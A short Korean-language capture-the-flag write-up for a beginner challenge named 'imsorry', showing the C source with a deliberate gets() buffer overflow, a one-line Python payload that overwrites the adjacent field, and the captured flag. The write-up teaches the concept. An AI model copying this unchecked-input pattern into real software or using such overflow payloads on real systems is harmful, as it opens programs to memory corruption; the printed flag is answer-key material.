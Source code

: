 #imsorry

문제 : imsorry


출제의도 : buffer overflow의 개념을 알고 있는가?




```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#pragma pack(push, 1)
typedef struct _t{
	char name[256];
	char sorry[0x10];
} t;
#pragma pack(pop)

int main(){

	t t_;

	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);

	puts("hey, its me.... im sorry:<");
	puts("tell me your name. I'll tell you how much sorry I am...");
	gets(t_.name);
	if(!strcmp("KCTFJr", t_.sorry)){
		system("cat flag");
		exit(0);
	}
	printf("I'm sorry %s\n", t_.name);
	puts("bye,,,,");
	return 0;
}
```



보면 name이라는 변수에 값을 입력받지만, 비교는 sorry라는 변수로 하고있는 것을 알 수 있다.


간단히 buffer overflow를 통해 문제를 해결할 수 있다.



*PAYLOAD*


`(python -c 'print "A"*256 + "KCTFJr"';cat) | ./imsorry`


***KCTFJr{Th@7_waZ_mAh_FaU1T.....:<}***
